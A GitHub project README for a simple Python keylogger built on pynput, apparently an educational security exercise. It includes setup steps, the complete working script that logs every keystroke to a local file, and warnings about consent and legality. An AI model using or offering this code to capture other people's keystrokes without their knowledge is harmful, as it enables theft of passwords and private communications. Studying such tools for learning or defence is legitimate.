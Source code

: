 # PRODIGY_CS_04
# Simple Keylogger

## Description

This project is a basic keylogger that records and logs keystrokes. It focuses on capturing and saving key presses to a file. The keylogger is implemented in Python using the `pynput` library. 

**Note:** Ethical considerations and explicit permissions are crucial when using keyloggers. This tool is intended for educational purposes only.

## Features

- Captures all key presses.
- Logs special keys in a readable format (e.g., space, enter, tab).
- Saves keystrokes to a file (`key_log.txt`).

## Requirements

- Python 3.x
- `pynput` library

## Installation

1. **Clone the Repository:**

   ```bash
   git clone https://github.com/raby02/PRODIGY_CS_04y.git
   ```
2. **Navigate to the Project Directory:**

   ```bash
   cd your-repository
   ```
3. **Install Required Packages:**
   Ensure you have pynput installed. You can install it using pip:
    ```bash
   pip install pynput
   ```

## Usage

### Run the Keylogger Script

To start the keylogger, run the following command in your terminal:

```bash
python simple_keylogger.py
```

## Code Explanation

The provided script listens for key presses and logs them to a file. Below is an overview of how the code functions:

```python
from pynput.keyboard import Listener

# Define the file where keystrokes will be saved
log_file = "key_log.txt"

# Function to format and write key logs
def on_press(key):
    try:
        # Convert key to string
        key_str = str(key).replace("'", "")
        
        # Log special keys in a readable format
        if key_str == 'Key.space':
            key_str = ' [SPACE] '
        elif key_str == 'Key.enter':
            key_str = ' [ENTER]\n'
        elif key_str == 'Key.tab':
            key_str = ' [TAB] '
        elif key_str == 'Key.backspace':
            key_str = ' [BACKSPACE] '
        elif 'Key' in key_str:
            key_str = f' [{key_str.replace("Key.", "").upper()}] '

        # Write to the log file
        with open(log_file, 'a') as file:
            file.write(key_str)
    
    except Exception as e:
        print(f"Error: {e}")

# Start listening for key presses
with Listener(on_press=on_press) as listener:
    listener.join()
```

## Ethical Considerations

- **Permissions**: Always obtain explicit permission before running keyloggers on any system. Unauthorized use of keyloggers is illegal and unethical.
- **Usage**: Use this tool responsibly and only for educational purposes or with the consent of all parties involved. Misuse of keyloggers can lead to legal consequences and privacy violations.





